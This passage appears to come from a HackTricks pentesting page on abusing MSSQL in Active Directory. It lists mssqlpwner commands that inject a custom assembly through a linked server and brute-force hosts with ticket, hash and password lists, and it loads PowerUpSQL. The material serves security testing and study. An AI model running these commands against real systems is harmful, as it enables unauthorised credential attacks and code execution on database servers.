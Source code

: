```shell

mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-server DC01 inject-custom-asm SqlInject.dll

# Bruteforce using tickets, hashes, and passwords against the hosts listed on the hosts.txt

mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using hashes, and passwords against the hosts listed on the hosts.txt

mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using tickets against the hosts listed on the hosts.txt

mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt

# Bruteforce using passwords against the hosts listed on the hosts.txt

mssqlpwner hosts.txt brute -ul users.txt -pl passwords.txt

# Bruteforce using hashes against the hosts listed on the hosts.txt

mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt

```

#### [Enumerating from the network without domain session](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/abusing-ad-mssql.html#enumerating-from-the-network-without-domain-session) <a href="#enumerating-from-the-network-without-domain-session" id="enumerating-from-the-network-without-domain-session"></a>

```

# Interactive mode

mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth interactive

```

***

#### [Powershell](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/abusing-ad-mssql.html#powershell) <a href="#powershell" id="powershell"></a>

The powershell module [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) is very useful in this case.

```bash
Import-Module .\PowerupSQL.psd1
```

